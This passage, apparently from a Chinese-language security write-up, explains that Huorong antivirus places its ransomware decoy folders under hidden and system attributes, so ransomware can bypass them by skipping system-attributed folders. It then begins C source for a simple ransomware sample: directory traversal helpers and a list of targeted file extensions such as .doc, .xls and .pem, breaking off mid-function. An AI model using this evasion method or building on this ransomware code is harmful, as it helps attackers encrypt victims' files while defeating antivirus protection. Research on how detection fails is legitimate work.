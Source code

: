```
System Volume Information       <DIR>   Hidden  System
Users                           <DIR>   Show    Normal
Windows                         <DIR>   Show    Normal
Zsetup287                       <DIR>   Hidden  System
```

发现火绒创建的两个诱饵文件夹都具有`FILE_ATTRIBUTE_HIDDEN`和`FILE_ATTRIBUTE_SYSTEM`属性。勒索软件只需要避开具有`FILE_ATTRIBUTE_SYSTEM`属性的文件夹就可以避开火绒的诱饵文件了。

## 编写简单的勒索软件样本

首先写一个可以被火绒拦截的简单勒索软件。只需要借助FindFirstFile和FindNextFile遍历文件，判断一下文件后缀名，然后再读写文件就行了：

```c
#include <windows.h>
#include <stdio.h>

// 将目录名dir和文件名filename拼接
void concat_path(char *dir, char *filename) {
    int i = 0;
    while (dir[i] != '\0') {
        i++;
    }
    if (dir[i-1] != '\\') {
        dir[i] = '\\';
        i++;
    }
    int j = 0;
    while (filename[j] != '\0') {
        dir[i] = filename[j];
        i++;
        j++;
    }
    dir[i] = '\0';
}

// 从路径中删去最后一项目录名/文件名
void remove_file_path(char *dir) {
    int i = 0;
    while (dir[i] != '\0') {
        i++;
    }
    if (dir[i-1] == '\\') {
        i -= 2;
    }
    while (dir[i] != '\\') {
        i--;
    }
    dir[i+1] = '\0';
}

BOOL is_target_filetype(char *filepath) {
    int length = strlen(filepath);
    BOOL result = FALSE;
    if (length >= 4) {
        result = result || !strcmp(&filepath[length-4], ".doc");
        result = result || !strcmp(&filepath[length-4], ".xls");
        result = result || !strcmp(&filepath[length-4], ".sql");
        result = result || !strcmp(&filepath[length-4], ".pem");
        result = result || !strcmp(&filepath[length-4], ".jpg");
        result = result || !strcmp(&filepath[length-4], ".rtf");
        result = result || !strcmp(&filepath[length-4], ".txt");
        result = result || !strcmp(&filepath[length-4], ".mdb");
    }
```